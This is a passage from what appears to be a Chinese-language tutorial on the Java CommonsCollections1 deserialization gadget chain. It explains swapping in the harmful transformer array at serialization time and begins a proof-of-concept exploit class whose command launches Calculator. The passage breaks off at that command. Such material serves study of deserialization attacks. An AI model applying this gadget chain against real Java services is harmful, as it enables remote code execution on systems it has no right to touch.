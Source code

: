 ![image-20221005001535438](images/image-20221005001535438.png)

先在开头设置一个没有危害的对象，在最后进行序列化的时候再把真正具有危害的`transformers`数组替换，从而避免了非预期的 rce
```java
package com.serialize;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

/**
 * Created by dotast on 2022/9/19 22:00
 */
public class CommonsCollections1 {
    public static void main(String[] args) throws Exception {
        CommonsCollections1 transformerTest = new CommonsCollections1();
        transformerTest.serialize();
        transformerTest.unserialize();
    }

    /*
     * 客户端
     * */
    public void  serialize() throws Exception{
        String cmd = "open -a Calculator.app";

```